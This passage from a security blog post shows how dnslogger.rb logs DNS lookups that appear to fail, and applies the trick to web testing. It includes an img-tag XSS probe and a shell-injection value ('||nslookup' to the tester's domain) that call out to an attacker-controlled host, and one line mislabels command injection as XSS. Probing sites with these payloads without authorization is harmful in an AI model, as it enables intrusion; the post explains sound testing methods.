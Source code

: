 ```

$ ping noserver.skullseclabs.org
Ping request could not find host noserver.skullseclabs.org. Please check the name and try again.
```

Conclusion? It's down. If you were investigating an incident and you saw that message, you'd conclude that there's nothing there, right? Probably?

Let's fire up dnslogger.rb:

```

$ sudo ruby ./dnslogger.rb
dnslogger v1.0.0 is starting!

Starting dnslogger DNS server on 0.0.0.0:53
```

Then do the same ping (with a different domain, because caching can screw you up):

```

$ ping yesserver.skullseclabs.org
Ping request could not find host yesserver.skullseclabs.org. Please check the name and try again.
```

It's the exact. Same. Response. The only difference is, on the DNS server, we see this:

```

$ sudo ruby ./dnslogger.rb
dnslogger v1.0.0 is starting!

Starting dnslogger DNS server on 0.0.0.0:53
Got a request for yesserver.skullseclabs.org [type = A], responding with NXDomain
```

What's this? *We saw the request*! Even if the person doing the lookup thought it failed, it didn't: WE KNOW.

That's really cool, because it's a really, really stealthy way to find out if somebody is looking you up. If you do a reverse DNS lookup for 206.220.196.59, you'll see:

```

$ dig -x 206.220.196.59
[...]
;; ANSWER SECTION:
59.196.220.206.in-addr.arpa. 3567 IN    PTR     test.skullseclabs.org.
```

And if you look up the forward record:

```

$ dig test.skullseclabs.org
[...]
;; ->>HEADER
<p>NXDOMAIN = "no such domain". Totally stealth!</p>
<h2>Why is it so awesome?</h2>
<p>Let's say you're testing for cross-site scripting on a site. Post <tt><img src="pagenamegoeshere.skullseclabs.org" /></tt> everywhere. If you later see a request like "adminpage.skullseclabs.org" come in, then guess what? You found some stored XSS on their admin page!</p>
<p>Let's say you're looking for shell injection. Normally, you do something like "vulnerablesite.com/query?q=myquery||ping -c5 localhost". If it takes 5 seconds, it's probably vulnerable to XSS. That's lame. Instead, do a query for "myquery||nslookup pagename.skullseclabs.org". If you see the query, it's definitely vulnerable. If you don't, it's almost certainly not.</p>
```